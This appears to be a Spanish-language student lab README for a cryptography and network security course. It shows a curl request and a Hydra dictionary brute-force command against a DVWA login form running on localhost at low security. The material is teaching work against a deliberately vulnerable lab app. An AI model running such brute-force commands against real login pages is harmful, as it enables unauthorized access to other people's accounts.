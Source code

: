 # Laboratorio-2-Criptograf-a-y-Seguridad-en-redes
## CURL
El comando para generar la consulta es el siguieten:
curl 'http://localhost/vulnerabilities/brute/?username=admin&password=password&Login=Login' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: es-419,es;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Cookie: PHPSESSID=rvepmt4r9nuvbn3vd1rndvu174; security=low' \
  -H 'Proxy-Connection: keep-alive' \
  -H 'Referer: http://localhost/vulnerabilities/brute/' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36' \
  -H 'sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="104"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  --compressed


## HYDRA
El comando para ejecutar hydra es el siguiente:
hydra -L user.dic -P password.dic "http-get-form://localhost:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=rvepmt4r9nuvbn3vd1rndvu174; security=low;:F=Username and/or password incorrect."

